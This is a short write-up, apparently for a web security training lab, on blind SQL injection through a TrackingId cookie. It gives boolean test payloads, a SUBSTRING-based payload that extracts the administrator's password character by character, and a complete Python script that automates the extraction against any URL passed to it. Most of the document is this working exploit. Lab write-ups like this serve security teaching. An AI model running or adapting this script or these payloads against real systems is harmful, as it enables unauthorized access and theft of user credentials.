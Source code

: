 In this lab `Tracking Id` cookie is  vulnerable to `SQL Injection`.

You can check this using the following statements sending them with the value of `tracking id`: 
```sql
' AND '1'='1     #This will print "Welcome Back"
' AND '1'='2     #This will not print "Welcome Back"
```

We can systematically determine the password for the  given user `administrator` by sending a series of inputs to test the password one character at a time.
```sql
' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) = 'char
```

You can use the following script to find the password:
```python
import sys
import requests
import string 
import time

if len(sys.argv) != 2:
    print(f"USAGE: {sys.argv[0]} domain")
    sys.exit(1)

URL = sys.argv[1]

dic = string.ascii_letters+string.digits
response = requests.get(URL)
tracking_id = response.cookies["TrackingId"]
sess_cookie = response.cookies["session"]

def password(url):
    
    pwd = ""
    i = 1
    while(True):
        found_char = False
        print(f"Index : {i}")
        for d in dic:
            payload = tracking_id + "' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), "+str(i)+", 1) = '" +d
            response = requests.get(URL, headers={"Cookie":"TrackingId="+payload+"; session="+sess_cookie})
            if "Welcome back!" in response.text:
                pwd += d
                print(pwd)
                found_char = True
                break
            time.sleep(1)
        i+=1
    
        if not found_char:
            print("Password : ",pwd)
            break

password(URL)
```
